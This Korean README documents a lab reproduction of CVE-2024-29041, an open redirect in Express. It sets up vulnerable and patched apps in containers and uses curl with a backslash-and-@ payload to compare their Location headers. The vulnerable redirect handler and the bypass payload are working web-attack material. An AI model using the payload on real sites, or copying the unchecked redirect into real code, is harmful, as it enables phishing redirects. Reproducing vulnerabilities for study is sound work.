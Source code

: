 # CVE-2024-29041 | Open Redirect

> 화이트햇 스쿨 3기 (19반) - [강다윤 (@daayuun)](https://github.com/daayuun)

---

## 📌 요약

Express 4.19.2 미만 및 5.0.0-beta.3 미만의 일k부 버전에서는 `res.location()` 혹은 내부적으로 이를 사용하는 `res.redirect()`에서 사용자 입력이 `encodeurl()`을 통해 인코딩됩니다. 이 과정에서 백슬래시(\\)와 `@` 기호 조합을 이용하면 화이트리스트 기반 필터링을 우회한 오픈 리다이렉트(Open Redirect) 취약점이 발생합니다.

- 영향을 받는 버전:
  - `< 4.19.2`
  - `>= 5.0.0-alpha.1, < 5.0.0-beta.3`

---

## 🔧 PoC 구성

해당 PoC는 CVE 내용 및 기존 공개 PoC를 참고하였으며, 이를 바탕으로 **Express 프레임워크를 선택**하여 취약점을 직접 재현했습니다.  
취약한 버전과 패치된 버전의 Express 앱을 각각 `vuln-app`, `normal-app`으로 구성하고 `q` 쿼리 파라미터를 통해 입력된 값을 `Location` 헤더로 전달하도록 구현했습니다.

```js
// index.js
const express = require("express");
const app = express();
const port = 3000;

app.use(function (req, res) {
  res.location(req.query.q).end();
});

app.listen(port, () => {
  console.log(`Example app listening at http://localhost:${port}`);
});
```

| 앱 이름    | Express 버전 |
| ---------- | ------------ |
| vuln-app   | 4.19.0       |
| normal-app | 4.19.2       |

---

## 🐳 환경 구성 및 실행

포트 매핑:

- `vuln-app`: localhost:8002
- `normal-app`: localhost:8003

```bash
# 저장소 클론
git clone https://github.com/daayuun/kr-vulhub.git
cd kr-vulhub/CVE-2024-29041

# 이미지 빌드
make build

# 컨테이너 실행
make up

# 종료
make down

# 로그 보기
make logs

# 컨테이너 재시작
make restart

# 컨테이너 및 이미지 제거
make clean

# 이미지 제거 후 재빌드
make rebuild
```

---

## ✅ 결과 확인

```bash
# 패치된 버전 (4.19.2)
curl -i "http://localhost:8003?q=http://google.com%5C%5C@apple.com"
```

```http
HTTP/1.1 200 OK
Location: http://google.com\%5C@apple.com
```

```bash
# 취약한 버전 (4.19.0)
curl -i "http://localhost:8002?q=http://google.com%5C%5C@apple.com"
```

```http
HTTP/1.1 200 OK
Location: http://google.com\\@apple.com
```

---

## 🛠️ 정리

취약한 Express 버전에서는 쿼리 파라미터에 인코딩된 백슬래시(`%5C`)가 `encodeurl()` 처리 이후에도 이스케이프되지 않고 남아, `@` 기호 이전의 도메인이 사용자 인증 정보로 처리됩니다. 이로 인해 `apple.com`으로 리디렉션되어, 화이트리스트 우회가 가능한 오픈 리다이렉트가 발생합니다.

브라우저나 URL 파서에 따라 리디렉션 처리 방식이 달라질 수 있으며, 피싱 등 공격에 악용될 수 있으므로 적절한 패치가 필요합니다.
